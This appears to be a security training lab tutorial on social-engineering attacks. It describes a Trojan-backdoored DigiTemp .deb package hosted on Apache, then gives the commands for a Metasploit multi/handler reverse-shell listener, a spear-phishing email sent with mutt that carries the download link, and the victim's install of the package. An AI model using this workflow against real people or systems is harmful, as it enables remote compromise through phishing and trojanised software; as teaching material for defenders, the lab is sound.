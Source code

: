 Real-life examples show that even the strongest technical security controls can be easily compromised by exploiting the weakest link: people. Actions like inserting an unauthorized USB drive into a workstation (as seen with Stuxnet) or opening a suspicious email attachment (as in the case of BlackEnergy) can provide attackers with the entry point they need to breach system infrastructure.

A malicious installer has been created using DigiTemp, a utility for reading values (mainly temperature) from 1-wire devices. A Trojan backdoor has been inserted into it using _MSFvenom_, a payload builder within the _Metasploit Framework_.

Note that the program itself is not inherently vulnerable.

To make the malicious package available for download via a web browser, it has been placed in the Apache server's webroot folder _/var/www/html_.

To start the Apache server, run the following command:
`service apache2 start`
# Starting Metasploit Framework

_MSFconsole_ is a command-line interface for the Metasploit Framework, an open-source security framework for penetration testing and vulnerability assessment. The Metasploit Framework is a collection of tools, modules, and libraries that can be used to test the security of systems and applications, and MSFconsole is one of the key components of the framework.

We will be setting up a listener to wait for incoming connections using a Metasploit exploit module.
To initiate Metasploit, enter the following command:
`msfconsole`
### Selecting Module

_The Generic Payload Handler_ provides all of the features of the Metasploit payload system to exploits launched outside of the framework.
To select the handler module, use the following command:
`use exploit/multi/handler`

To display the options for the handler module, use the following command:
`options`

Two settings are listed, of which both are required. Note that only LHOST is empty.
Configure the module to listen on the localhost IP:
`set LHOST 127.0.0.1`

Specify a new port number for the listener:
`set LPORT 443`

Specify the payload that must be sent to the target once they connect to the listener. Select the reverse TCP command shell payload as follows:
`set PAYLOAD linux/x86/shell/reverse_tcp`

Start the listener by entering the exploit.
`exploit`
# Sending Phishing Email

For this attack, it is necessary to send a spear-phishing email that contains a download link.

Open a new terminal to send a phishing email.

_Postfix_ is a widely used _Mail Transfer Agent (MTA)_ on Linux systems. It is a powerful and dependable mail server capable of handling large volumes of email traffic. However, to utilize Postfix to send and receive emails, the Postfix server must be running on the system.
`service postfix start`

Once enabled, the Postfix service listens on the SMTP port (port 25) and is ready to receive incoming email messages.

To send an invitation to download a utility from a website, run the following command:
`echo "This utility is very useful. Download from <a href="http://192.168.1.100/digitemp.deb">here</a>." | mutt ‑e "set content_type=text/html" ‑s "Digitemp Download" ‑‑ root@192.168.1.100`

The -e option is used to set the content type of the email to HTML.
The -s option is used to set the subject of the email.
### Checking Email

_Mutt_ is a command-line email client for Unix-based systems, designed for terminal/console environments. It supports various email protocols, including POP3, IMAP, and SMTP.

Mutt allows users to manage their email entirely from the command line, with a built-in editor for composing messages and features for filtering, sorting, and searching emails based on multiple criteria.

To read the email using Mutt, enter the following command:
`mutt`

When prompted, press _enter_ to create the _/root/Mail_ directory.
# Reading Email

> Note: It is crucial to follow the instructions carefully in this step and the next.

The received email should be visible in the inbox. Press _Enter_ to open it.
Next, press _v_ to view the attachment and _enter_ to open it.

The phishing email will display the download link. Press _CTRL + B_ to click on it, then press _enter twice_.

This will open the URL in your default browser. Choose _Save File_ and click _OK_ to download the file.

### Installing Package

_dpkg_ is the Debian Package Manager, a command-line tool used to install, remove, and manage packages on Debian-based systems. The dpkg tool is responsible for unpacking and installing individual package files in the .deb format.

Navigate to the Downloads directory where the downloaded file is located.

cd /root/Downloads

Afterwards, attempt to install the downloaded digitemp.deb package:
`sudo dpkg -i digitemp.deb`

The -i option stands for install.

The output indicates that the package was installed successfully
